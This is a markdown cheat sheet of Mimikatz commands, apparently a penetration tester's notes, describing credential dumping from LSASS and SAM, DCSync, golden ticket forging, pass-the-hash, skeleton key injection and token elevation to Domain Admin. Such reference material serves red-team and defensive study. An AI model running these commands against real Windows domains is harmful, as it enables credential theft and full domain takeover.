

# --------------MIMIKATZ--------------

# 

## [Unofficial documentation](https://adsecurity.org/?page_id=1821)
### Available Credential in OS: 

### Most useable Commands:

```privilege::debug ```: checking mimikatz status

```Invoke-Mimikatz -DumpCreds```: Dump all credential from the memory LSASS


# Most Popular Mimikatz Commands:

#### Here are just some of the most popular Mimikatz command and related functionality.

```CRYPTO::Certificates``` – list/export certificates

```KERBEROS::Golden``` – create golden/silver/trust tickets

```KERBEROS::List``` – List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.

```KERBEROS::PTT``` – pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).

```LSADUMP::DCSync```– ask a DC to synchronize an object (get password data for account). No need to run code on DC.

```LSADUMP::LSA``` – Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”

```LSADUMP::SAM``` – get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.

```LSADUMP::Trust``` – Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).

```MISC::AddSid``` – Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.

```MISC::MemSSP``` – Inject a malicious Windows SSP to log locally authenticated credentials.

```MISC::Skeleton``` – Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.

```PRIVILEGE::Debug``` – get debug rights (this or Local System rights is required for many Mimikatz commands).

```SEKURLSA::Ekeys``` – list Kerberos encryption keys
```SEKURLSA::Kerberos``` – List Kerberos credentials for all authenticated users (including services and computer account)

```SEKURLSA::Krbtgt``` – get Domain Kerberos service account (KRBTGT)password data

```SEKURLSA::LogonPasswords``` – lists all available provider credentials. This usually shows recently logged on user and computer credentials.

```SEKURLSA::Pth``` – Pass- theHash and Over-Pass-the-Hash

```SEKURLSA::Tickets``` – Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account .

```kerberos::list```, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).

```TOKEN::List``` – list all tokens of the system

```TOKEN::Elevate``` – impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box

```TOKEN::Elevate /domainadmin ```– impersonate a token with Domain Admin credentials.